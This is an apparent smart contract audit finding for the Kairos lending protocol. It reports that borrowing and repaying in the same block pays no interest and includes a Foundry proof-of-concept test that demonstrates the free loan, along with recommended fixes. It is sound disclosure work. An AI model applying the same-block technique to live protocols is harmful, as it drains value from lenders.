 dingo

medium

# Free loan for users if they borrow and repay in one block.

## Summary
SC: BorrowFacet.sol
1) There is an option to use loan for free(with no interest rate) if borrow and repay loan in same block. Also attacker can do this(borrow and repay with no fee) in absolutely every block and use this liquidity for arbitrage bot and so on. Cost attack: gas only (almost 0 at L2)
Supplier(who offered loan) can prevents it only after decrease allowance on tokens to 0 or waiting for expire date of loan offer.

## Vulnerability Detail
The core of vulnerability lies in  `BorrowFacet.sol`  in function `repay()` especially this part:
```solidity
 interests = RayMath.max(
                mul(loan.interestPerSecond.mul(block.timestamp - loan.startDate)),
                loan.payment.minInterestsToRepay);
```
because if you borrow and repay in one block both will return `0`;

So you can run this test to check it out `forge test --match-test testBorrowAndRepayInSameBlockOnce -vvv
`:

```soldiity
    function testBorrowAndRepayInSameBlockOnce() public {
        uint256 nbOfLoans = 1;
        BorrowArg[] memory borrowArgs = new BorrowArg[](nbOfLoans);
        Offer memory offer;
        uint256 currentTokenId;

        getFlooz(signer, money, nbOfLoans * getOfferArg().amount);

        for (uint256 i = 0; i < nbOfLoans; i++) {
            OfferArg[] memory offerArgs = new OfferArg[](1);
            currentTokenId = getJpeg(BORROWER, nft);
            offer = getOffer();
            offer.collateral.id = currentTokenId;
            offerArgs[0] = OfferArg({
                signature: getSignature(offer),
                amount: getOfferArg().amount,
                offer: offer
            });
            borrowArgs[i] = BorrowArg({nft: NFToken({id: currentTokenId, implem: nft}), args: offerArgs});
        }

        console.log("Borrower balance of erc20 BEFORE borrow :",money.balanceOf(BORROWER));
        console.log("block.timestamp BEFORE borrowing:", block.timestamp);
        vm.prank(BORROWER);
        kairos.borrow(borrowArgs);
        console.log("Borrower balance of erc20 AFTER borrow :",money.balanceOf(BORROWER));

        assertEq(nft.balanceOf(BORROWER), 0);
        assertEq(money.balanceOf(signer), 0);
        assertEq(money.balanceOf(BORROWER), nbOfLoans * getOfferArg().amount);
        assertEq(nft.balanceOf(address(kairos)), nbOfLoans);
        for (uint256 i = 0; i < nbOfLoans; i++) {
            assertEq(nft.ownerOf(i + 1), address(kairos));
        }

        uint256[] memory loanId = new uint256[](1); 
        loanId[0] = 1;
        
        vm.startPrank(BORROWER);
        money.approve(address(kairos),1000000000000000000); 
        kairos.repay(loanId);
        console.log("Borrower balance of erc20 AFTER repay :",money.balanceOf(BORROWER));
        console.log("block.timestamp AFTER repayment:", block.timestamp);
    }
```
![image](https://user-images.githubusercontent.com/106747559/227134861-19460a02-c2ac-41ae-aca6-dd42dc34fb8d.png)
As we can see no fee was paid, repayment also was successfully proceed.


## Impact
Suppliers loan offers could be used for free. Potential loses - expected average APR while using Kairos protocol.

## Code Snippet
https://github.com/sherlock-audit/2023-02-kairos/blob/main/kairos-contracts/src/RepayFacet.sol#L40

## Tool used
Manual Review

## Recommendation
1) Integrate minimum fix interest rate even if repayment in the same block or
2) Decline repayment in same block.
